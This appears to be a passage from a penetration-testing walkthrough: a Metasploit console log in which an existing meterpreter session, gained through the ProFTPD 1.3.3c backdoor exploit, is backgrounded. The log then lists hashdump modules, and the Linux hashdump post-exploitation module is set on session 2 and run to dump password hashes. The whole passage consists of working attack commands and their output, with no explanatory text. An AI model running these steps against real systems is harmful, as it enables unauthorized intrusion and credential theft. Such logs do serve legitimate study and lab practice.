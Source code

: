 ```
meterpreter > 
Background session 2? [y/N]  y
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > search hashdump

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank    Check  Description
   -   ----                                                  ---------------  ----    -----  -----------
   0   auxiliary/analyze/crack_databases                                      normal  No     Password Cracker: Databases
   1   auxiliary/scanner/mssql/mssql_hashdump                                 normal  No     MSSQL Password Hashdump
   2   auxiliary/scanner/mysql/mysql_authbypass_hashdump     2012-06-09       normal  No     MySQL Authentication Bypass Password Dump
   3   auxiliary/scanner/mysql/mysql_hashdump                                 normal  No     MYSQL Password Hashdump
   4   auxiliary/scanner/oracle/oracle_hashdump                               normal  No     Oracle Password Hashdump
   5   auxiliary/scanner/postgres/postgres_hashdump                           normal  No     Postgres Password Hashdump
   6   auxiliary/scanner/smb/impacket/secretsdump                             normal  No     DCOM Exec
   7   post/aix/hashdump                                                      normal  No     AIX Gather Dump Password Hashes
   8   post/android/gather/hashdump                                           normal  No     Android Gather Dump Password Hashes for Android Systems
   9   post/bsd/gather/hashdump                                               normal  No     BSD Dump Password Hashes
   10  post/linux/gather/hashdump                                             normal  No     Linux Gather Dump Password Hashes for Linux Systems
   11  post/osx/gather/hashdump                                               normal  No     OS X Gather Mac OS X Password Hash Collector
   12  post/solaris/gather/hashdump                                           normal  No     Solaris Gather Dump Password Hashes for Solaris Systems
   13  post/windows/gather/credentials/domain_hashdump                        normal  No     Windows Domain Controller Hashdump
   14  post/windows/gather/credentials/mcafee_vse_hashdump                    normal  No     McAfee Virus Scan Enterprise Password Hashes Dump
   15  post/windows/gather/credentials/mssql_local_hashdump                   normal  No     Windows Gather Local SQL Server Hash Dump
   16  post/windows/gather/hashdump                                           normal  No     Windows Gather Local User Account Password Hashes (Registry)
   17  post/windows/gather/smart_hashdump                                     normal  No     Windows Gather Local and Domain Controller Account Password Hashes

```

```
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > use post/linux/gather/hashdump
msf5 post(linux/gather/hashdump) > show options

Module options (post/linux/gather/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf5 post(linux/gather/hashdump) > set SESSION 2
SESSION => 2
msf5 post(linux/gather/hashdump) > exploit

```